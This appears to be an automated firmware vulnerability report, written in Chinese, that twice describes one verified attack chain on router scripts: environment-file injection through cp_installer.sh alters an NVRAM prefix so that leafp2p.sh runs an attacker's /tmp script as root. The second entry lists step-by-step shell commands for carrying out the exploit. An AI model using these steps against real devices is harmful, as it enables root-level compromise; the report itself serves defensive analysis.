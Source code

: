 ### ExploitChain-cp_installer-env-injection-to-leafp2p-rce-verified

- **文件路径:** `etc/init.d/leafp2p.sh`
- **位置:** `usr/sbin/cp_installer.sh:54-56 → etc/init.d/leafp2p.sh:8-12`
- **类型:** Verified Attack Chain
- **综合优先级分数:** **9.45**
- **风险等级:** 9.8
- **置信度:** 9.5
- **触发可能性:** 8.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 验证后的完整攻击链：1) 攻击者控制cp_installer.sh的$3参数设置PATH_ECO_ENV 2) 在恶意eco.env中注入'export PATH=$PATH:/usr/sbin； nvram set leafp2p_sys_prefix=/tmp' 3) 篡改NVRAM配置 4) leafp2p服务重启时执行/tmp/bin/checkleafnets.sh。关键突破：通过PATH显式设置解决nvram命令执行问题。触发条件：控制$3参数+服务重启（物理触发或漏洞触发）。
- **代码片段:**
  ```
  // 恶意eco.env内容示例:
  export PATH=$PATH:/usr/sbin
  nvram set leafp2p_sys_prefix=/tmp
  
  // leafp2p.sh执行点:
  SYS_PREFIX=$(nvram get leafp2p_sys_prefix)  // 返回/tmp
  CHECK_LEAFNETS=${SYS_PREFIX}/bin/checkleafnets.sh
  start() {
    ${CHECK_LEAFNETS} &  // RCE触发点
  ```
- **关键词:** PATH_ECO_ENV=${3}, . ${PATH_ECO_ENV}/eco.env, nvram set leafp2p_sys_prefix, SYS_PREFIX=$(${nvram} get leafp2p_sys_prefix), ${CHECK_LEAFNETS} &
- **备注:** 验证更新：1) 通过PATH设置解决nvram执行问题 2) /tmp可写性成立 3) 服务重启机制需结合其他漏洞（如SSRF）

---
### ExploitChain-cp_installer-env-injection-to-leafp2p-rce-verified

- **文件路径:** `etc/init.d/leafp2p.sh`
- **位置:** `usr/sbin/cp_installer.sh:54-56 → etc/init.d/leafp2p.sh:8-12`
- **类型:** Verified Attack Chain
- **综合优先级分数:** **9.45**
- **风险等级:** 9.8
- **置信度:** 9.5
- **触发可能性:** 8.5
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 跨文件验证的攻击链：环境注入点（cp_installer.sh）与RCE执行点（leafp2p.sh）通过NVRAM配置传递形成完整利用路径。新增技术细节：恶意eco.env必须包含PATH导出语句确保nvram命令可用。风险影响：root权限任意命令执行，CVSS评分预估9.8。
- **代码片段:**
  ```
  // 攻击链分步实现:
  // 步骤1: 创建恶意环境文件
  echo 'export PATH=$PATH:/usr/sbin' > /tmp/eco.env
  echo 'nvram set leafp2p_sys_prefix=/tmp' >> /tmp/eco.env
  
  // 步骤2: 触发环境注入
  cp_installer.sh ... /tmp ...
  
  // 步骤3: 重启服务（需触发机制）
  /etc/init.d/leafp2p.sh restart
  ```
- **关键词:** PATH_ECO_ENV=${3}, . ${PATH_ECO_ENV}/eco.env, leafp2p_sys_prefix, SYS_PREFIX, checkleafnets.sh
- **备注:** 关联原攻击链ID: ExploitChain-cp_installer-env-injection-to-leafp2p-rce | 剩余风险：服务重启需额外攻击面

---